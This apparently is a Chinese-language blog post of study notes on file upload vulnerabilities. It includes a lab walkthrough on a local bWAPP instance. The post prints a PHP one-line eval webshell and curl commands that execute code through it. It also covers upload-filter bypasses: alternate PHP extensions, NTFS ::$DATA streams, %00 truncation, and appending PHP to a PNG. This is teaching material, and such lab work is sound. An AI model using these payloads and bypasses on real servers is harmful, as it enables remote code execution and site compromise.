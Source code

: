 ```yaml
---
title: 《Web攻防安全实战》学习总结：文件上传漏洞
date: 2020-12-05 14:36:21
index_img: /img/websecurity.png
banner_img: /img/websecurity.png
tags:
  - 安全
  - Web安全
categories:
  - Web安全
  - 文件上传漏洞
---
```

# 文件上传漏洞
## 1、漏洞原理：Webshell
webshell，顾名思义：web指的是在web服务器上，而shell是用脚本语言编写的脚本程序，webshell就是就是web的一个管理工具，可以对web服务器进行操作的权限。
webshell根据脚本可以分为PHP脚本木马，ASP脚本木马，也有基于.NET的脚本木马和JSP脚本木马。
关键函数：以php为例，eval（），执行用户输入的函数。

## 2、一句话木马
### 2.1 php一句话木马
```
<?php @eval($_POST['hacker']);?>
```
获取post请求中hacker字段的值，并将该值转换为php代码执行；

## 3、后缀名绕过
### 3.1 php文件后缀名绕过
apache、nginx等web服务器会加载一些语言解析器模块，如python、php、asp等，当某个特定的文件后缀名被限制上传的时候，我们就可以根据web server的解析原理，修改文件后缀名，达到绕过限制的目的，但不是所有的后缀名都能被web server解析，下面通过实战模拟探究下绕过的原理

## 4、Windows文件流特性绕过
Windows平台使用NTFS文件流，NTFS环境一个文件默认使用的是未命名文件流，同时可创建其他命令的文件流，Windows资源管理器默认不显示出文件的命名文件流。举例：
1）在任一NTFS分区下打开CMD命令提示符，输入echo abcde>>a.txt:b.txt，则在当前目录下会生成一个名为a.txt的文件，但文件的大小为0字节，打开后也无任何内容，只有输入命令：notepad a.txt:b.txt 才能看见写入的abcde
2）在上边的命令中，a.txt可以不存在，也可以是某个已存的文件，文件格式无所谓，无论是.txt还是.jpg|.exe|.asp都行；b.txt也可以任意指定文件名以及后缀名。（可以将任意文本信息隐藏于任意文件中，只要不泄露冒号后的虚拟文件名(即b.txt)，别人是根本不会查看到隐藏信息的）
3）包含隐藏信息的文件仍然可以继续隐藏其它的内容，对比上例，我们仍然可以使用命令echo 12345>>a.txt:c.txt　给a.txt建立新的隐藏信息的流文件，使用命令notepad a.txt:c.txt　打开后会发现12345这段信息，而abcde仍然存在于a.txt:b.txt中丝毫不受影响。
当我们访问a.asp::$DATA 时，就是请求 a.asp 本身的数据，如果a.asp 还包含了其他的数据流，比如 a.asp:lake2.asp，请求 a.asp:lake2.asp::$DATA，则是请求a.asp中的流数据lake2.asp的流数据内容。
例如当.php后缀当文件类型被黑名单限制时，可以通过拦截数据包，将文件名修改为shell.php::$DATA当方式进行绕过。

## 5、%00阶段绕过
如果后端在处理上传文件的保存过程，是以路径拼接的方式，且路径是从前端获取，就可以采取路径截断的方式绕过白名单。具体手法是利用burpsuite，在我们想要截断的位置，进入十六进制，添加00截断符号。具体实现见实战模拟。

## 6、文件头检测绕过
每种文件头格式都有对应的十六进制和自负的编码形式。比如png格式的文件头标识符是89 50 4E 47，git格式的文件头标识符是47 49 46 38。在面对具有文件内容检测的上传功能时，我们可以将攻击代码和图片等文件进行聚合，实现既满足文件头检测，又可成功执行代码的效果。

## 7、文件上传源码审计
逻辑代码安全性&调用函数安全性

## 8、Fuzz
burpsuite —— send to intruder 
需要准备字典 

# 实战模拟
## 环境搭建
```
# 第一次启动
docker pull registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
docker run -d -p 0.0.0.0:80:80 registry.cn-shanghai.aliyuncs.com/yhskc/bwapp

# 根据课程中的演示搭建好 bWAPP 实验环境后，以后再启动 bWAPP
docker container list -a # 查看 container id
docker start xxx # xxx 就是上一步获得的 container id，运行完这条命令后，访问响应的网址即可
```

## 一句话木马上传
初始化bwapp，过程省略，选择文件上传漏洞 Unrestricted File Upload，按下图操作，上传一句话木马文件，并复制上传后服务器返回的文件保存地址
![fileupload](/img/fileupload1.gif)
构造一句话木马，在POST请求的hacker字段中写入我们希望服务器执行的代码，利用curl工具构造post请求：
```
curl -d "hacker=echo get_current_user();" http://127.0.0.1:8888/images/shell.php
curl -d "hacker=echo getcwd();" http://127.0.0.1:8888/images/shell.php
```
此处介绍两个php api
get_current_user()：获取服务所属用户名
getcwd()：获取当前执行目录
操作见下图，服务器成功返回了用户名www-data及当前执行目录/app/images

![fileupload](/img/fileupload2.gif)


## 文件名后缀绕过
将文件上传等级设置为 medium，上传文件后缀为php时，显示被拦截，如下：
![fileupload](/img/hz.gif)
将shell.php文件后缀修改为php3和php30，上传php3后缀文件时，可成功绕过后缀名限制
![fileupload](/img/hz3.png)
上传shell.php30文件，服务器将文件当作txt文本进行了处理，直接打印了文件内容
![fileupload](/img/hz.png)
通过web server的配置文件，探究文件名绕过的原理；bwapp使用的web server是apache，通过配置文件可以了解到apache的语言解析模块文件路径

```
vim /etc/apache2/apache2.conf
```
![fileupload](/img/apcf.png)
进入对应的语言解析模块配置文件：

```
vim /etc/apache2/mods-enabled/php5.conf
```

![fileupload](/img/phpconf.png)
通过配置文件可发现，php、php3、php5、phptml等文件后缀都可以被apache服务器解析，这也就是为什么刚刚上传的php3文件可被执行，php30不能被执行的原因。了解了文件名后缀的绕过原理，我们就可以通过上传不同的后缀名文件来达到文件后缀名限制绕过的目的。

## %00截断绕过
首先上传shell.php.jpg，文件可成功上传。
![fileupload](/img/jieduan2.png)
![fileupload](/img/jieduan1.png)
由于这个上传点的文件路径和文件名可控，因此考虑在php后进行截断，实现我们要上传的文件类型，同时满足文件类型校验。
首先利用burpsuite拦截上传请求，利用16进制输入文件截断符 00，因为键盘输入不了这个符号；同时便于查找位置，我们输入 空格（16进制数是20），便于查找需要修改的位置。将 空格20 修改为 00进行截断。可发现空格消失，同时在png后面移动光标时会发现存在一个隐藏字符，即需要移动两次才到达 .jpg 位置。
![fileupload](/img/jieduan3.png)
![fileupload](/img/jieduan4.png)
![fileupload](/img/jieduan5.png)
![fileupload](/img/jieduan6.png)
取消burpsuite拦截，文件成功上传，点击here查看，文件名被成功截断且修改为shell.png
![fileupload](/img/jieduan7.png)

## 文件头检测绕过
以php语言为例，首先准备一个普通的png格式文件，查看文件内容，文件头标志符号是完整的：
![fileupload](/img/filehead.png)
再准备一个用于测试的php文件，功能是输出‘test’字符串：
![fileupload](/img/filehead2.png)
将php文件内容追加到png文件内：
```
cat test.php >> filetype.png
```
![fileupload](/img/filehead3.png)
利用php，解析png文件，php代码被成功执行，说明我们可以通过把图片和代码进行聚合的方式，让它既满足文件头的标准校验，又满足代码的执行。
![fileupload](/img/filehead4.png)
